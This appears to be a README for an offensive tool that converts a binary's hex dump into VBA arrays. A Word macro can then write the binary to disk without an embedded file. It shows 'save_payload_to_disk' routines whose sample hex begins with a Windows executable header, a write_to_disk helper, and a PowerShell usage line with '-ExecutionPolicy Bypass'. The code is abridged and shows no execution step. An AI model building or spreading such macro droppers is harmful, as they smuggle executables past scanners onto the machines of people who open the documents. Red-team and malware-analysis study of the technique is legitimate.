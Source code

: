 ## file to vba array
Takes the hexdump of a file and places it into VBA arrays. This allows e.g. a word document to contain a binary file without embedding one. Instead it just creates it by writing the hex data to disk. Because of VBA's limitation on procedure size it will split the file into multiple functions if needed.

```vb
Sub save_payload_to_disk_1(filePath As String)
    Dim hexDataArray(1 To 2500) As String
    hexDataArray(1) = "4D5A90000300000004000000FFFF0000B80000"
    hexDataArray(2) = "00000000004000000000000000000000000000"
    hexDataArray(3) = "24200F437424202BF00374243085F67E258B1D"

    ...
    
    hexDataArray(2500) = "50FFD383C40885F67E068B442414EBE70FB744"

    write_to_disk filePath, hexDataArray
End Sub

Sub save_payload_to_disk_2(filePath As String)
    Dim hexDataArray(1 To 420) As String
    hexDataArray(1) = "8D46FF89028B571C8B028D4802890A668B00E9"
    hexDataArray(2) = "79010000837F5000750AB8FFFF0000E9690100"
    hexDataArray(3) = "6A00E8E5110000FF7750FFD383C40483F8FF0F"

    ...

    hexDataArray(420) = "F8017E3883F8030F85EE000000837C24300272"

    write_to_disk filePath, hexDataArray
End Sub
```

write_to_disk can then look something like this:

```vb
Sub write_to_disk(filePath As String, hexDataArray() As String)
    Dim i As Integer
    Dim j As Integer
    Dim data As String
    Dim hexData As String

    For i = LBound(hexDataArray) To UBound(hexDataArray)
        hexData = hexDataArray(i)
        data = ""

        ' Convert each hex string in the array to binary data
        For j = 1 To Len(hexData) Step 2
            data = data & Chr(CLng("&H" & Mid(hexData, j, 2)))
        Next j

        Open filePath For Binary Access Write As #1
            Seek #1, LOF(1) + 1 ' Write data to the end of the file
            Put #1, , data
        Close #1
    Next i
End Sub
```

### How to use
* PowerShell -ExecutionPolicy Bypass -File file_to_vba_array.ps1 -filePath "PATH_TO_BINARY" -outputPath "result.txt"
